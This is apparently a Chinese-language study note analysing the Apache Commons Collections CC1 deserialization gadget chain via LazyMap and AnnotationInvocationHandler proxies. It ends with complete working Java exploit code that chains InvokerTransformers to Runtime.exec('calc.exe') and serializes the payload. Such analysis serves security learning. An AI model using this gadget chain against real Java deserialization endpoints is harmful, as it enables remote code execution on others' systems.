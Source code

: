 # CC1的TransformedMap利用链

续接上一次写的CC1分析，后继续学习其他CC链的利用方式，以及代码分析。

### CC1

因为上次使用的CC1链利用的类是`TransformedMap`这次使用另一个`Map`

![img](img/1657262479222-24121b6f-fba4-4001-9a03-74fba5fc9eea.png)

然后这次使用的是ysoserial项目中的payload

![img](https://cdn.nlark.com/yuque/0/2022/png/2432392/1657262555664-ff49526c-b1d2-4d8c-ae40-201412edcc0d.png)

从`LazyMap.get()`后面的过程，就是调用`transform()`方法的过程跟上一个文章分析是一样的，就不多写了，这里只分析前面的部分。

上面的同样调用了`AnnotationinvocationHandler`这个类，但是这里的链子当中，`AnnotationinvocationHandler`调用了两次，一次是调用了其中的`readObject()`方法，应该是用来反序列化调用。还有一个时`invoke()`方法调用`LazyMap`中的`get()`方法。

看一下在`LazyMap`中的这个`get()`方法

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
    }
```

进入就是if判断这个map集合中是否存在这个指定的key，如果存在就跳过if，直接`return map.get(key)`

如果没有key，那么会创建一个key，也就是只要执行到`get()`方法的时候，找不到这个key就可以成功进入执行`transform()`方法。现在就是找哪里调用了`get()`方法

根据payload中可以看到是在`AnnotationinvocationHandler`类中的`invoke()`方法

![img](img/1657264897514-6ce4b8f6-3d1d-4d36-b3f0-3659947a1d9e.png)

且这个`memberValues`是可控的，`private final Map<String, Object> memberValues;`

![img](img/1657265262456-85d96977-88ae-4a4e-bd0c-ad2618433488.png)

然后就是这里来调用`get()`方法，

现在继续向上，怎么才能调用`invoke()`方法，

看流程是`Map(Proxy).entrySet`，这里要去了解一下关于代理的知识点了。

Proxy是在使用时会自动调用`InvocationHandler`的`invoke()`方法的。

```java
Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, h);
```

关于`newProxyInstance()`的三个参数，第一个：使用`LazyMap.class.getClassLoader()`加载器去加载代理对象

第二个参数：动态代理类需要实现的接口

第三个参数：h动态代理方法在执行时，会调用h里面的`invoke`方法去执行

`invoke()`方法也调用了，因为还是要调用`AnnotationInvocationHandler`中的`readObject()`，所以还是跟上一条链子一样，创建一个对象，最终要序列化的就是它。

```java
annotationInvocationHandler.newInstance(Override.class, mapProxy);
```

这次对注解没有要求，只需要传一个就可以。因为这次的不需要进入if判断，调用不用进入判断。所以是无所谓了。

![img](img/1657277125043-a30595d7-3b4d-426f-bf9d-068aef950e55.png)

完整攻击代码

```java
package CC6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        // chainedTransformer.transform(Runtime.class);
        HashMap map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandler = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandler.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationHandler.newInstance(Override.class, lazyMap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, h);

        Object o = annotationInvocationHandler.newInstance(Override.class, mapProxy);
        serialize(o);
        unserialize("cc6.bin");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```